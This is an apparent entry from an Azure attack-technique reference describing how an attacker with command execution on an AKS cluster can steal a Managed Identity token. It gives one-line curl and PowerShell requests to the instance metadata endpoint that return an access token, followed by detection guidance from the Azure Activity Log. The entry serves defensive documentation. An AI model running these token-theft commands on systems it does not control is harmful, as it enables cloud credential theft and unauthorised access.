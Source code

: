 # AZT601.2 - Steal Managed Identity JsonWebToken: Azure Kubernetes Service IMDS Request

By utilizing access to IMDS, an attacker can request a JWT for a Managed Identity on an AKS Cluster if they have access to execute commands on the system.

!!! info "Resource" 

	Azure Kubernetes Service

!!! success "Actions" 

	* Microsoft.ContainerService/managedClusters/runcommand/action
	* Microsoft.ContainerService/managedclusters/commandResults/read

!!! example "Examples"

	=== "Python"
	
		`#!python curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s`

	=== "PowerShell"
		
		[`#!powershell powershell.exe -c $a=Invoke-Restmethod -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01"&"resource=https://management.azure.com/' -Method GET -Headers @{Metadata='true'} -UseBasicParsing;$a.access_token`](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token)
		
    === "Azure Portal"

		![aks](aks.PNG)

!!! abstract "Detections"

	## **Detection Details**

	Logs are only generated when running a command through az cli or Az PowerShell. Using `kubectl` will not generate logs.

	## **Logs**  

    | Data Source        | Operation Name     | Action                                                            | Log Location |
    |--------------------|---------------------|-------------------------------------------------------------------|--------------|
    | Resource | RunCommand	 | Microsoft.ContainerService/managedClusters/runCommand/action	| Azure Activity Log |

!!! faq "Additional Resources"

	* [https://docs.microsoft.com/en-us/azure/aks/command-invoke](https://docs.microsoft.com/en-us/azure/aks/command-invoke)
	* [https://docs.microsoft.com/en-us/azure/aks/use-managed-identity](https://docs.microsoft.com/en-us/azure/aks/use-managed-identity)
